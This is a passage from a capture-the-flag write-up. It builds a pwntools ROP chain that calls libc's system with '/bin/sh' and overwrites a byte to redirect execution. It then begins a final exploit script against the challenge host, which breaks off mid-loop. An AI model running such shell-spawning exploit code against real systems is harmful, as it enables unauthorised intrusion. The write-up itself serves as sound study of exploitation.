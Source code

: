 ```python
# Rop
# 0x000000000002792e: pop rdi; pop rbp; ret;
pop_rdi_rbp_ret = libc.address+ 0x000000000002792e
ret = b''
ret += p64(pop_rdi_rbp_ret)
ret += p64(next(libc.search(b"/bin/sh\0")))
ret += b'A'*8 # For alignment.
ret += p64(libc.symbols['system'])

writywrite(ret, AT_RANDOM, -0xc61)

# Shell
writywrite(b'\xc7', AT_ENTRY, tests - start)
```
* Where the final value for `-0xc61` is found after a bit of trial and error.
* Here I use `pop_rdi_rbp_ret` gadget to get `rsp` aligned. I used `ropper` (https://github.com/sashs/Ropper) to find the gadget. However a simple `ret` gadget would actually also work.
* The `c7` byte makes `tests[0]` point to a `ret` instruction in the binary.

## The final script
Sometimes it won't work (often because of failing to crack the seed), so the script itself might need to be run a couple of times, but it will eventually crack the seed and give a shell.

```python
#!/usr/bin/env python3
from pwn import *
from ctypes import CDLL
from tqdm import tqdm

checksec= False

exe = ELF("./main_tmp_patched", checksec = checksec)
libc = ELF("./libc.so.6", checksec = checksec)
ld = ELF("./ld-linux-x86-64.so.2", checksec = checksec)

libc_time = CDLL(libc.path).time
libc_rand = CDLL(libc.path).rand
libc_srand = CDLL(libc.path).srand

HOST,PORT = "write-of-passage.hack.fe-ctf.dk", 1337

def conn():
  if args.REMOTE:
    r = remote(HOST, PORT)
  elif args.DBG:
    r = gdb.debug([exe.path], gdbscript=gdbscript)
  else:
    r = process([exe.path])
  return r

def what_where(type, offset):
  global r
  global libc_rand_calls
  libc_rand_calls += 1
  r.sendlineafter(b"What is it?\n",  f"{type}".encode(), timeout=2)
  r.sendlineafter(b"Where is it?\n", f"{offset}".encode(), timeout=2)

def loopyloop():
  global r
  global libc_rand_calls
  for _ in tqdm(range(0x500)):
    r = conn()
    time = libc_time(0)
```